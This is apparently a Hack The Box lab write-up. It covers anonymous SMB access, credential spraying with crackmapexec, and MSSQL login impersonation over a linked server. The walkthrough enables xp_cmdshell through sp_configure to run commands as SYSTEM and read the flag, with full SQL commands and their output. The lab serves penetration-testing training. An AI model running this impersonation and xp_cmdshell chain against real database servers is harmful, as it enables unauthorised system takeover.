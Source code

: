 ### SMB - Port 445
Anonymous login is allowed. Inside we found the folder Home where we find three users: fiona, john and simon.

We retrieve three password list and with crackmapexec we found credentials for fiona:48Ns72!bns74@S84NNNSl


### RDP - Port 3389
With the found credentials for fiona we can log in



### MSSQL - Port 1433
We can connect using fiona credentials and the following command
	`sqsh -S 10.129.203.10 -U .\\fiona -P '48Ns72!bns74@S84NNNSl' -h`

Identify linked Servers in MSSQL

```bash
1> select SRVNAME, ISREMOTE from Sysservers
2> go

        WINSRV02\SQLEXPRESS 1
        LOCAL.TEST.LINKED.SRV 0
```

Identify users who can impersonate

```bash
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> go

	john
	simon

1> EXECUTE AS LOGIN = 'simon'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> go
        simon   0

1> EXECUTE AS LOGIN = 'john'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> go
        john   1
```

So john is admin and we can impersonate him

```bash
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go
        WINSRV02\SQLEXPRESS

        Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)

        testadmin 1
```

And we can execute commands as john in the linked server

```bash
1> EXECUTE('xp_cmdshell ''whoami''') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]2> go
Msg 15281, Level 16, State 1
Server 'WIN-HARD\SQLEXPRESS', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned
off as part of the security configuration for this server. A system administrator can enable the use of
'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in
SQL Server Books Online.
1> EXECUTE('sp_configure ''show advanced options'', 1') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXECUTE('RECONFIGURE') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go
1> EXECUTE('sp_configure ''xp_cmdshell'', 1') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXECUTE('RECONFIGURE') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go
1> EXECUTE('xp_cmdshell ''whoami''') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go

        nt authority\system
1> EXECUTE('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''') AS LOGIN = 'john' AT [LOCAL.TEST.LINKED.SRV]
2> go

        HTB{46u$!n9_l!nk3d_$3rv3r$}
```

